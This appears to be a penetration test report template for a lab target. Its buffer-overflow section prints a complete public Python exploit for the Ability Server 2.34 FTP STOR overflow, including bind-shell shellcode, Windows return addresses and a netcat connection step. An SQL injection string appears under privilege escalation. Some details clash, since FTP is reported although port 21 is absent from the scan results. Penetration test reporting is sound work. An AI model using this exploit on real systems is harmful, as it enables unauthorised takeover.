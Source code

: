 # Independent Challenges

## Target #1 – 172.16.203.134

### Service Enumeration

**Port Scan Results**

+----------------+--------------------------------------------------------------------------+
| **IP Address** | **Ports Open**                                                           |
+================+==========================================================================+
| 172.16.203.134 | **TCP:** 22, 79, 80, 105, 106, 110, 135, 139, 143, 445, 2224, 3306, 3389 |
+----------------+--------------------------------------------------------------------------+

**FTP Enumeration**

Upon manual enumeration of the available FTP service, John noticed it was running an outdated version 2.3.4 that is prone to the remote buffer overflow vulnerability.

### Initial Access – Buffer Overflow

**Vulnerability Explanation:** Ability Server 2.34 is subject to a buffer overflow vulnerability in STOR field. Attackers can use this vulnerability to cause arbitrary remote code execution and take completely control over the system.

**Vulnerability Fix:** The publishers of the Ability Server have issued a patch to fix this known issue. It can be found here: [http://www.code-crafters.com/abilityserver/](http://www.code-crafters.com/abilityserver/)

**Severity: [Critical]{ color="red" }**

**Steps to reproduce the attack:** The operating system was different from the known public exploit. A rewritten exploit was needed in order for successful code execution to occur. Once the exploit was rewritten, a targeted attack was performed on the system which gave John full administrative access over the system.

**Proof of Concept Code:** modifications to the existing exploit are highlighted in red.

```{ language=Python style=smaller }
###################################
# Ability Server 2.34 FTP STOR Buffer Overflow
# Advanced, secure and easy to use FTP Server.
# 21 Oct 2004 - muts
###################################
# D:\BO>ability-2.34-ftp-stor.py
###################################
# D:\data\tools>nc -v 127.0.0.1 4444
# localhost [127.0.0.1] 4444 (?) open
# Microsoft Windows XP [Version 5.1.2600]
# (C) Copyright 1985-2001 Microsoft Corp.
# D:\Program Files\abilitywebserver>
###################################

import ftplib
from ftplib import FTP
import struct
print "\n\n################################"
print "\nAbility Server 2.34 FTP STOR buffer Overflow"
print "\nFor Educational Purposes Only!\n"
print "###################################"

# Shellcode taken from Sergio Alvarez's "Win32 Stack Buffer Overflow Tutorial"

sc = "\xd9\xee\xd9\x74\x24\xf4\x5b\x31\xc9\xb1\x5e\x81\x73\x17\xe0\x66"
sc += "\x1c\xc2\x83\xeb\xfc\xe2\xf4\x1c\x8e\x4a\xc2\xe0\x66\x4f\x97\xb6"
sc += "\x1a\x38\xd6\x95\x87\x97\x98\xc4\x67\xf7\xa4\x6b\x6a\x57\x49\xba"
sc += "\x7a\x1d\x29\x6b\x62\x97\xc3\x08\x8d\x1e\xf3\x20\x39\x42\x9f\xbb"
sc += "\xa4\x14\xc2\xbe\x0c\x2c\x9b\x84\xed\x05\x49\xbb\x6a\x97\x99\xfc"
sc += "\xed\x07\x49\xbb\x6e\x4f\xaa\x6e\x28\x12\x2e\x1f\xb0\x95\x05\x61"
sc += "\x8a\x1c\xc3\xe0\x66\x4b\x94\xb3\xef\xf9\x2a\xc7\x66\x1c\xc2\x70"
sc += "\x67\x1c\xc2\x56\x7f\x04\x25\x44\x7f\x6c\x2b\x05\x2f\x9a\x8b\x44"
sc += "\x7c\x6c\x05\x44\xcb\x32\x2b\x39\x6f\xe9\x6f\x2b\x8b\xe0\xf9\xb7"
sc += "\x35\x2e\x9d\xd3\x54\x1c\x99\x6d\x2d\x3c\x93\x1f\xb1\x95\x1d\x69"
sc += "\xa5\x91\xb7\xf4\x0c\x1b\x9b\xb1\x35\xe3\xf6\x6f\x99\x49\xc6\xb9"
sc += "\xef\x18\x4c\x02\x94\x37\xe5\xb4\x99\x2b\x3d\xb5\x56\x2d\x02\xb0"
sc += "\x36\x4c\x92\xa0\x36\x5c\x92\x1f\x33\x30\x4b\x27\x57\xc7\x91\xb3"
sc += "\x0e\x1e\xc2\xf1\x3a\x95\x22\x8a\x76\x4c\x95\x1f\x33\x38\x91\xb7"
sc += "\x99\x49\xea\xb3\x32\x4b\x3d\xb5\x46\x95\x05\x88\x25\x51\x86\xe0"
sc += "\xef\xff\x45\x1a\x57\xdc\x4f\x9c\x42\xb0\xa8\xf5\x3f\xef\x69\x67"
sc += "\x9c\x9f\x2e\xb4\xa0\x58\xe6\xf0\x22\x7a\x05\xa4\x42\x20\xc3\xe1"
sc += "\xef\x60\xe6\xa8\xef\x60\xe6\xac\xef\x60\xe6\xb0\xeb\x58\xe6\xf0"
sc += "\x32\x4c\x93\xb1\x37\x5d\x93\xa9\x37\x4d\x91\xb1\x99\x69\xc2\x88"
sc += "\x14\xe2\x71\xf6\x99\x49\xc6\x1f\xb6\x95\x24\x1f\x13\x1c\xaa\x4d"
sc += "\xbf\x19\x0c\x1f\x33\x18\x4b\x23\x0c\xe3\x3d\xd6\x99\xcf\x3d\x95"
sc += "\x66\x74\x32\x6a\x62\x43\x3d\xb5\x62\x2d\x19\xb3\x99\xcc\xc2"

# Change RET address if need be.

buffer = '\x41'*966+struct.pack('<L', 0x7C2FA0F7)+'\x42'*32+sc # RET Windows 2000 Server SP4
#buffer = '\x41'*970+struct.pack('<L', 0x7D17D737)+'\x42'*32+sc # RET Windows XP SP2

try:
    # Edit the IP, Username and Password.
    ftp = FTP('127.0.0.1')
    ftp.login('ftp','ftp')
    print "\nEvil Buffer sent..."
    print "\nTry connecting with netcat to port 4444 on the remote machine."
except:
    print "\nCould not Connect to FTP Server."

try:
    ftp.transfercmd("STOR " + buffer)
except:
    print "\nDone."
```

### Privilege Escalation – MySQL Injection

**Vulnerability Explanation:** After establishing a foothold on target, John noticed there were several applications running locally, one of them, a custom web application on port 80 was prone to SQL Injection attacks. Using Chisel for port forwarding, John was able to access the web application. When performing the penetration test, John noticed error-based MySQL Injection on the taxid query string parameter. While enumerating table data, John was able to successfully extract the database root account login and password credentials that were unencrypted that also matched username and password accounts for the administrative user account on the system and John was able to log in remotely using RDP. This allowed for a successful breach of the operating system as well as all data contained on the system.

**Vulnerability Fix:** Since this is a custom web application, a specific update will not properly solve this issue. The application will need to be programmed to properly sanitize user-input data, ensure that the user is running off of a limited user account, and that any sensitive data stored within the SQL database is properly encrypted. Custom error messages are highly recommended, as it becomes more challenging for the attacker to exploit a given weakness if errors are not being presented back to them.

**Severity: [Critical]{ color="red" }**

**Steps to reproduce the attack:**

```
SELECT * FROM login WHERE id = 1 or 1=1 AND user LIKE "%root%"
```

**Screenshot:**

![](placeholder.png){ width=50% }

### Post-Exploitation

**System Proof Screenshot:**

![](placeholder.png){ width=75% }
